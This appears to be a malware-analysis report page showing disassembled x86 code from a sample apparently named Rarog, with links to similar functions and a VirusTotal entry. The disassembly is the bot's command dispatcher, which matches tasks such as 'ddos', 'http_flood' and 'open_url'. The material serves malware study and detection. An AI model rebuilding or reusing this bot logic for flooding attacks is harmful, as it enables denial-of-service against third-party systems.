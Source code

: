 mov esi,dword[ebp-0x134]
jae 0x4067ab
lea esi,[ebp-0x134]
push 5
mov edi,str.ddos
pop ecx
xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x406807
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x488],esp
mov dword[ecx+0x14],0xf
mov dword[ecx+0x10],ebx
push str.Rarog___New_task__type:_ddos
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
cmp dword[ebp-0x1e4],0x10
mov esi,dword[ebp-0x1f8]
jae 0x4067f4
lea esi,[ebp-0x1f8]
lea eax,[ebp-0x214]
call fcn.0040312c
push eax
mov ecx,esi
call fcn.0040109d
cmp dword[ebp-0x120],0x10
mov esi,dword[ebp-0x134]
jae 0x40681c
lea esi,[ebp-0x134]
push 0xb
mov edi,str.http_flood
pop ecx
xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x40686c
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x488],esp
mov dword[ecx+0x14],0xf
mov dword[ecx+0x10],ebx
push str.Rarog___New_task__type:_http_flood
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
sub esp,0x1c
lea eax,[ebp-0x284]
mov esi,esp
mov dword[ebp-0x488],esp
push eax
call fcn.004026e3
call fcn.0040261f
cmp dword[ebp-0x120],0x10
mov esi,dword[ebp-0x134]
jae 0x406881
lea esi,[ebp-0x134]
push 9
mov edi,str.open_url
pop ecx
xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x406961
sub esp,0x1c

[similar_1_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_2_ref]: /report/fcn.0040becc@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.004183a4@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.00406b6f@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6